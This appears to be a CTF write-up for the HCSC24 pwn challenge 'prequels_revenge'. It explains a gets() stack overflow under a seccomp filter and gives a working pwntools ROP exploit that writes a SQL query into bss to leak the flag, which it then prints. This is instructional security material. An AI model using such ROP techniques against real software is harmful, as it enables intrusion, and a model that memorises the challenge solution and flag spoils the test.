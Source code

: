 # Overview
The given zip file contains a docker image with a 64 bit binary called prequel. There is also a `create_message_db.sh` script in the assets directory which creates an sqlite database in a file called `messages.db`

This challenge is essentially the same as `prequel`, but this time we don't have any debug functions or useful strings, so we have to be smart about constructing our ROP chain.

## Binary
![](screenshots/executable.png)
We have a statically linked 64-bit ELF executable. The symbols are fortunately not stripped. Pwntools' `checksec` says that there is stack canary protection in place - this is not true for the main function, and there isn't a memory segment that is writeable and executable at the same time. We don't have to worry about ASLR, the binary starts always at the same address in the memory.

## Running the binary
![](screenshots/running_executable.png)

The binary asks for a name, does an sql query and prints out the result.

## Decompiling
![](screenshots/decompiled.png)

When we open up the binary in our favourite decompiler we can see that the program uses seccomp (Secure Computing mode). This is a feature in the Linux kernel that is designed to filter system calls.
We can use `seccomp-tools` to dump the restrictions.

![](screenshots/seccomp.png)

As you can see using execve and execveat results in terminating the process, so we can't get a shell without exploiting the kernel itself to bypass the seccomp filter. However, this protection won't stop us from getting the flag.

## The vulnerability
![](screenshots/read_name.png)

The function `read_name` calls `gets` on a given buffer. It is a well-known fact that using `gets` is a bad idea because it doesn't do a length check on the input at all before writing it to the buffer. This is a classical case of a stack-based buffer overflow.

## Exploitation
Our buffer in this case is 64 bytes long, and there is an 8 bytes long base pointer, so the offset will be 72 bytes till the return address.
We can also calculate this dynamically with the following code.
```python
from pwn import *

p = process("./prequels_revenge")
g = cyclic_gen()

p.sendline(g.get(100))
p.wait()

print(cyclic_find(p.corefile.fault_addr))
```

Since no segment is writeable and executable at the same time we have to use return-oriented programming (ROP), we can't just send a shellcode and jump there.
This time our job is harder than the previous challenge, because there are no debug functions, and there is no `SELECT * FROM flag;` string in the binary that we could utilize for getting the flag.

Our new strategy is to call the gets on a writeable memory address (for example bss), write `SELECT * FROM flag;` to that place and then call get_messages with the query provided by us.
This is pretty easy, we need a pop rdi gadget, and the address of gets and get_message. We don't have to supply another parameter to get_message, because it only prints out a warning when we don't supply the second parameter.

This time I utilized pwntools' automatic rop chain building capabilities.

```python
from pwn import *

context.binary = elf = ELF("./prequels_revenge")

p = process()

r = ROP(elf)
r.raw(b"A" * 72) # padding

r.gets(elf.bss()) # elf bss is a writeable memory address
r.get_message(elf.bss())

p.sendline(r.chain())
p.sendline(b"SELECT * FROM flag;")
p.recvuntil(b"Failed to bind text: column index out of range\n")

flag = p.recvline().decode()
log.success("Got flag: " + flag)
```

Running the exploit on remote yields the following flag: `HCSC24{h0pe_y0u_u53d_the_str1nG_1n_pR3qu3l_4nd_n0t_b0ring_r34d}`
This is pretty funny because my first method for solving the previous challenge named `prequel` was this exploit, then I realized there is a simpler way, but actually, this was beneficial, because on the second day, this challenge came out and I already had this exploit.